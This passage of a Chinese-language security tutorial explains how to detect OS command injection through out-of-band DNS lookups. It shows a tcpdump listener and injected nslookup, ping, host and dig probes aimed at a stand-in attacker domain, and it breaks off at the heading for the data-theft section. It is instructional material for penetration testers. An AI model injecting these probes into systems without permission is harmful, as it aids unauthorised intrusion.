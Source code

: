 我们可以通过让 Web 应用程序解析精心制作的 DNS 名称并查找相关的 DNS 查询来检测 OS 代码注入漏洞。  
### 检测  
#### DNS  
  
**攻击者**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应  

```
sudo tcpdump -n port 53
```

  
**注意：**  
在 DNS 命令中，我们也可以明确定义用于解析的名称服务器。  
##### Windows  

```
nslookup test.oob.dnsattacker.com
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoAJicDjAINVXCzT91WFxRSIUXLv0ZgrWFcBjwKJUDeZkDiaRnBDPnADTg/640?wx_fmt=png&from=appmsg "")  
  
nslookup Windows  

```
ping ping.oob.dnsattacker.com
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoiaIlmorYrgicOQv2ZvFWdqzYMhw1iaV27AxkLwMjfCaYdpbQL3agT0s8w/640?wx_fmt=png&from=appmsg "")  
  
Ping Windows  
##### UNIX  

```
host host.oob.dnsattacker.com
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoacY3sXbGWAx7U1WY8ExcRMPrdRZSBiaOo8p8gQaFx7M5JpQVt8Q8RsA/640?wx_fmt=png&from=appmsg "")  
  
Unix host 命令  
  
类似地，我们可以使用：  

```
dig test.oob.dnsattacker.com
ping test.oob.dnsattacker.com
nslookup test.oob.dnsattacker.com
```

### 漏洞利用/数据窃取  
#### DNS  
  
**注意**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应  
